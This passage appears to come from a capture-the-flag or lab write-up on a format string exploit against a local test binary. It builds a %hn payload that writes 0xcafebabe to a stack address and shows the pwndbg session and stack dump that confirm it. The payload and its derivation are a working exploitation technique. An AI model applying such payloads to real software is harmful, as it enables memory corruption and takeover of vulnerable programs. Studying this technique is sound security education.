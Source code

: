 ```bash
pwndbg> x/wx 0xffff670c
0xffff670c:     0x00000004 # byte length before format specifier
```

Nice, now target = 4, but we want it to be `0xcafebabe`. So, u’ll have write `3405691582` chars@@. You can using padding, but it still too long

So, instead of writing a long int (4 bytes), we can write 2 short int (2 bytes). To do that, we’ll use another format specifier: `%hn`

- **0xcafebabe**: including the high order bytes **0xcafe** (51966 in decimal) & the low order bytes **0xbabe** (47806 in decimal).
- We want to write those val at `0xffff670c` .It means writing **0xcafe** at high order `0xffff670c` + 2 = `0xffff670e` and **0xbabe** at `0xffff670c` (low order).

## build payload

The formula: **[The val we want]** **- [The bytes already wrote] = [The val to set]**

- Low order bytes: It’ll be 47806 - 8 = **47798**, because we already wrote 8 bytes (the two 4 bytes addr).
- High order bytes: it’ll be 51966 - 47806 = **4160**, because we already wrote 47806 bytes (the two 4 bytes addr and 47798 bytes from the previous writing).

> `\x0c\x67\xff\xff\x0e\x67\xff\xff%47798x%7$hn%4160x%8$hn`
> 
- `\x0c\x67\xff\xff` (`0xffff670c`) point to the low order bytes.
- `\x0e\x67\xff\xff` (`0xffff670e`) point to the high order bytes.
- `%47798x` will write **47798** bytes on the standard output.
- `%7$hn` will write *8 + 47798 = 47806* bytes (or *0xbabe*) at the first address specified (**0xffff670c**).
- `%4160x` will write *4160* bytes on the standard output.
- `%8$hn` will write *8 + 47798 + 4160 = 51966* (or *0xcafe*) at the second address specified (**0xffff670e**).

```bash

pwndbg> b *main+73
pwndbg> r < <(python -c "print('\x0c\x67\xff\xff\x0e\x67\xff\xff%47798x%7\$hn%4160x%8\$hn')")
pwndbg> tel 24
00:0000│ esp 0xffff66b0 —▸ 0xffff66cc —▸ 0xffff670c ◂— 0xdeadc0de
01:0004│     0xffff66b4 ◂— 0x40 /* '@' */
02:0008│     0xffff66b8 —▸ 0xf7fb8580 (_IO_2_1_stdin_) ◂— 0xfbad2088
03:000c│     0xffff66bc —▸ 0x56556248 (main+27) ◂— add    ebx, 0x2044
04:0010│     0xffff66c0 ◂— 0x1c2fb9
05:0014│     0xffff66c4 ◂— 0x534
06:0018│     0xffff66c8 ◂— 0x3d /* '=' */
07:001c│ eax 0xffff66cc —▸ 0xffff670c ◂— 0xdeadc0de # %7$
08:0020│     0xffff66d0 —▸ 0xffff670e ◂— 0x6730dead # %8$
09:0024│     0xffff66d4 ◂— '%47798x%7$hn%4160x%8$hn\n'
0a:0028│     0xffff66d8 ◂— '98x%7$hn%4160x%8$hn\n'
0b:002c│     0xffff66dc ◂— '7$hn%4160x%8$hn\n'
0c:0030│     0xffff66e0 ◂— '%4160x%8$hn\n'
0d:0034│     0xffff66e4 ◂— '0x%8$hn\n'
0e:0038│     0xffff66e8 ◂— '$hn\n'
0f:003c│     0xffff66ec —▸ 0xf7e01300 (__new_exitfn+224) ◂— pop    ebp
10:0040│     0xffff66f0 —▸ 0xf7fb83fc (__exit_funcs) —▸ 0xf7fb9180 (initial) ◂— 0x0
11:0044│     0xffff66f4 ◂— 0x1
12:0048│     0xffff66f8 —▸ 0x5655828c (_GLOBAL_OFFSET_TABLE_) ◂— 0x3194
13:004c│     0xffff66fc —▸ 0x56556323 (__libc_csu_init+83) ◂— add    esi, 1
14:0050│     0xffff6700 ◂— 0x1
15:0054│     0xffff6704 —▸ 0xffff67c4 —▸ 0xffff690d ◂— '/home/v1etd/lab/fmt'
16:0058│     0xffff6708 —▸ 0xffff67cc —▸ 0xffff6921 ◂— 'SHELL=/bin/bash'
17:005c│     0xffff670c ◂— 0xdeadc0de
pwndbg> n
pwndbg> x/wx 0xffff670c
```